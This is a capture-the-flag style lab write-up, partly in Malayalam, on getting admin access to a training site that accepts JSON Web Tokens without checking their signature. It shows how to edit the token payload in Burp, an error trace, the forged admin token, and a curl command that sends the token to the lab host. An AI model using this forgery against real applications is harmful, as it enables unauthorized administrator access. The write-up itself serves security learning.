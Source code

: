 ## Introduction
-->This exercise covers the exploitation of a website using JWT for session without verifying the signature
-->This course details the exploitation of a weakness in the usage of JSON Web Tokens (JWT).
-->In this application, JWT is used for authentication.
-->Upon successful login, the user is issued a JWT in a cookie.
-->This exercise covers a very common issue in application using JWT: not verifying the token's signature.

## Exploitation
-->To exploit this issue, you just need to modify the payload of the JWT to change your username to admin.
-->Since the application doesn't verify the signature, you can leave the signature as it is.

## Conclusion
-->This exercise showed you another way to tamper with a JWT to gain administrator access in an application.
-->It showed you that having a signature is only a security mechanism if it gets verified.
-->Unfortunately, this issue is very common with modern web applications.



# Video explanation
## Video - exploitation
-->lab open chyuka enit oru account undakuka.enit burp il poin nokiyal kanan patum namuk jwt token kiteetund
-->so ee request eduth repeater il iduka.enit payload double click chythit josu enna username mati admin enn kodukuka.enit apply changes kodukuka
-->apol namuk puthiya token kitum kni send adichal error varum :
```http
TypeError: Cannot read property &#39;username&#39; of null<br> &nbsp; &nbsp;at /app/server.js:26:22<br> &nbsp; &nbsp;at Layer.handle [as handle_request] 
```
-->ithinartham namal chyunath correct alla ennan.so username namal admin koduthit apply changes adich kazhinj payload part nokumbol kanam :
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY5OTEwODg5fQ%3d%3d.pK4YOrVaA1O8se8sTWVqxtg3iQ2n31pWOrOoih5UqOc
```
ivide payload part nok last %3D%3D enn ie, == aan. so naaml %3D%3D remove chyanam enit send adikumbol namuk admin aayi maran patunund ok
-->namal jwt test chyumbol curl command vechum test chythek. njan ivide curl vech chythapozhum enik result kiti ok ie, ->`curl -H 'Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY5OTEwODg5fQ.pK4YOrVaA1O8se8sTWVqxtg3iQ2n31pWOrOoih5UqOc' http://ptl-a24ef938-372075a8.libcurl.so/`